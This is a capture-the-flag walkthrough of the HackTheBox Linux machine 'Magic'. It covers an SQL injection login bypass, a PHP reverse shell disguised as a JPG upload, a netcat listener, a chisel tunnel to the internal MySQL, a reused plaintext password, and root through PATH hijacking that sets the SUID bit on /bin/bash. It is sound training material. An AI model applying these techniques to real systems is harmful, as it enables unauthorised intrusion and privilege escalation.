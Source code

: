 ```yaml
---
title: "Magic"
date: 2025-06-20
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Magic

![](assets/Pasted%20image%2020250519225835.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.185
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-19 23:06 CEST
Nmap scan report for 10.10.10.185
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   40.32 ms 10.10.14.1
2   40.62 ms 10.10.10.185

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.41 seconds
```

Port `80` shows a site about magic pictures made in `PHP`.

![](assets/Pasted%20image%2020250519231718.png)

Searching the bottom right number (it's hex for magic), we find information about a PHP type juggling vulnerability.

There is a login form at `/login.php` that is vulnerable to SQLi.

![](assets/Pasted%20image%2020250519231941.png)

Intercept the request with `Caido` and put `' OR '1'='1'-- -` in the password field to bypass authentication.

![](assets/Pasted%20image%2020250520001804.png)

![](assets/Pasted%20image%2020250520001731.png)

## Initial Access

To bypass the file whitelist (`jpg`, `jpeg`, `png`), put a PHP reverse shell in a normal jpg file.

![](assets/Pasted%20image%2020250520100330.png)

Upload the file with a double extension `.php.jpg` and go to the path where all images are uploaded: `/images/uploads/`.

![](assets/Pasted%20image%2020250520104057.png)

So, put a bash reverse shell and start a listener.

![](assets/Pasted%20image%2020250520131228.png)

```shell
$ sudo rlwrap nc -lnvp 80
[sudo] password for kali: 
listening on [any] 80 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.185] 51236
bash: cannot set terminal process group (1229): Inappropriate ioctl for device
bash: no job control in this shell
www-data@magic:/var/www/Magic/images/uploads$ whoami
whoami
www-data
www-data@magic:/var/www/Magic/images/uploads$ 
```

## Privilege Escalation

Examining the app, we find the database config.

![](assets/Pasted%20image%2020250520133333.png)

And there is a `mysql` instance on `3306`.

```shell
ss -ntplu
Netid  State    Recv-Q   Send-Q      Local Address:Port      Peer Address:Port  
udp    UNCONN   0        0                 0.0.0.0:54434          0.0.0.0:*     
udp    UNCONN   0        0                 0.0.0.0:5353           0.0.0.0:*     
udp    UNCONN   0        0           127.0.0.53%lo:53             0.0.0.0:*     
udp    UNCONN   0        0                 0.0.0.0:68             0.0.0.0:*     
udp    UNCONN   0        0                 0.0.0.0:631            0.0.0.0:*     
udp    UNCONN   0        0                    [::]:5353              [::]:*     
udp    UNCONN   0        0                    [::]:53480             [::]:*     
tcp    LISTEN   0        80              127.0.0.1:3306           0.0.0.0:*     
tcp    LISTEN   0        128         127.0.0.53%lo:53             0.0.0.0:*     
tcp    LISTEN   0        128               0.0.0.0:22             0.0.0.0:*     
tcp    LISTEN   0        5               127.0.0.1:631            0.0.0.0:*     
tcp    LISTEN   0        128                     *:80                   *:*     
tcp    LISTEN   0        128                  [::]:22                [::]:*     
tcp    LISTEN   0        5                   [::1]:631               [::]:*
```

So, expose the port with `chisel`.

```shell
$ ./chisel server --port 5555 --reverse
2025/05/20 13:50:12 server: Reverse tunnelling enabled
2025/05/20 13:50:12 server: Fingerprint zxld6D6IlWWZXhFcL+dvetmj/NbXygDLvjuOJoR6IaQ=
2025/05/20 13:50:12 server: Listening on http://0.0.0.0:5555
2025/05/20 13:50:24 server: session#1: tun: proxy#R:3306=>localhost:3306: Listening

www-data@magic:/tmp$ ./chisel client 10.10.14.11:5555 R:3306:localhost:3306
./chisel client 10.10.14.11:5555 R:3306:localhost:3306
2025/05/20 04:43:07 client: Connecting to ws://10.10.14.11:5555
2025/05/20 04:43:08 client: Connected (Latency 44.137534ms)
```

And connect to the database.

```shell
$ mysql -u theseus -P 3306 -p --skip-ssl
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 10214
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Magic              |
+--------------------+
2 rows in set (0.043 sec)

MySQL [(none)]> use magic;
ERROR 1044 (42000): Access denied for user 'theseus'@'localhost' to database 'magic'
MySQL [(none)]> use Magic;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Magic]> show tables;
+-----------------+
| Tables_in_Magic |
+-----------------+
| login           |
+-----------------+
1 row in set (0.043 sec)

MySQL [Magic]> select * from login;
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
|  1 | admin    | Th3s3usW4sK1ng |
+----+----------+----------------+
1 row in set (0.041 sec)

MySQL [Magic]> exit
Bye
```

Pivot to `theseus`:

```shell
www-data@magic:/var/www/Magic/images/uploads$ su - theseus
su - theseus
Password: Th3s3usW4sK1ng

theseus@magic:~$ whoami
whoami                                                                                          
theseus
```

Get the flag

```shell
theseus@magic:~$ cat user.txt
cat user.txt
8892373356de16931deba839326cf201
```

![](assets/Pasted%20image%2020250520140539.png)

Using `ltrace` on `sysinfo` we notice

![](assets/Pasted%20image%2020250520182234.png)

It calls `fdisk` without the full path.

```shell
$ cat fdisk
chmod +s /bin/bash
```

Add `/tmp` to the user's path and execute:

```shell
theseus@magic:/tmp$ export PATH="/tmp:$PATH"
export PATH="/tmp:$PATH"
theseus@magic:/tmp$ syinfo
syinfo
```

```shell
theseus@magic:/tmp$ ls -alh /bin/bash
ls -alh /bin/bash
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash
```

```shell
theseus@magic:/tmp$ bash -p
bash -p
bash-4.4# whoami
whoami
root
```

## Post Exploitation

```shell
cat root.txt
bcc1fd50a588e421e53dc5e054de001a
```
